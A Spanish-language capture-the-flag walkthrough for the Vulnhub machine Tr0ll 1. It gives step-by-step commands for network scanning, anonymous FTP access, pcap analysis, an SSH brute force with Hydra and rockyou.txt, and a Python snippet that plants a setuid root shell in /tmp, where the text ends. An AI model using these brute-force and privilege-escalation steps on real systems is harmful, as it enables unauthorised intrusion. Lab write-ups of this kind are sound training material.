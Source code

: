 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=200&height=80&lines=TR0LL_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tr0ll-1,100/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/176079905-f35a37e9-416f-45a8-8f7e-3c49899c7252.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/176080128-62ec0641-3cfa-479f-8d07-737fc130d1aa.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/176081118-60dbaddd-22c5-48c2-9232-a18565c084e1.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio se sesión anónimo.

O.S: **Linux**

URL: `http://192.168.1.4`

![4](https://user-images.githubusercontent.com/75953873/176081949-b1bb16cd-4a6f-4c5a-9abf-136aa5cc5c53.png)

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.4
```
Usuario: `anonymous`

Contraseña: `anonymous`

Copiar el archivo `lol.pcap` hacia el directorio local:
```
get lol.pcap
```
![5](https://user-images.githubusercontent.com/75953873/176082571-6e2485ce-3890-4e4e-a022-40aeebc2310c.png)

- *Paso 5* Examinar captura de paquetes con Wireshark. 
```
wireshark lol.pcap
```
![6](https://user-images.githubusercontent.com/75953873/176084226-03fe75a3-9b3a-459a-96e7-c70f8112f8cc.png)

Aplicar filtro: `(ip.addr eq 10.0.0.6 and ip.addr eq 10.0.0.12) and (tcp.port eq 20 and tcp.port eq 51884)`

Directorio secreto: `sup3rs3cr3tdirlol`

URL completa: `http://192.168.1.4/sup3rs3cr3tdirlol`

![7](https://user-images.githubusercontent.com/75953873/176085343-f3ea1169-da6f-4107-b70e-bf9e439c2010.png)

Descargar archivo: 
```
wget http://192.168.1.4/sup3rs3cr3tdirlol/roflmao
```

Explorar el archivo con Strings:
```
string roflmao
```
![8](https://user-images.githubusercontent.com/75953873/176085855-ffc26116-24d7-4c34-87d4-578fa54dddbb.png)

Directorio secreto: `0x0856BF`

URL completa: `http://192.168.1.4/0x0856BF`

![9](https://user-images.githubusercontent.com/75953873/176086028-06516837-d580-49de-8f15-c045b71909ff.png)

El directorio `good_luck` contiene un fichero txt con una lista de nombres para realizar un ataque de fuerza bruta y conectarse al servicio **SSH**. 

URL completa: `http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt`
```
wget http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt && cat which_one_lol.txt
```
![10](https://user-images.githubusercontent.com/75953873/176086596-77994340-98ef-4c9c-8231-5963d17a4c17.png)

- *Paso 6* Ataque de fuerza bruta al servicio SSH con Hydra. 
```
hydra -L which_one_lol.txt -P rockyou.txt 192.168.1.4 ssh
```
![11](https://user-images.githubusercontent.com/75953873/176089030-02ebf4c5-56d9-4a11-89a1-34ab99c0e119.png)

Usuario: `overflow`

Contraseña: `Pass.txt`

Iniciar sesión al servicio SSH:
```
ssh overflow@192.168.1.4
```

- *Paso 7* Filtrar todos los directorios y escalar privilegios root. 
```
find / -writable 2<dev/null
```
![12](https://user-images.githubusercontent.com/75953873/176089628-cc8a60fd-7cd4-4e17-b2bc-1979707d85af.png)

Directorio objetivo: `/lib/log`

Con el editor de Nano hay que remplazar la línea de `rm -r /tmp/` por las siguientes:
```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh')
except:
        sys.exit()

```

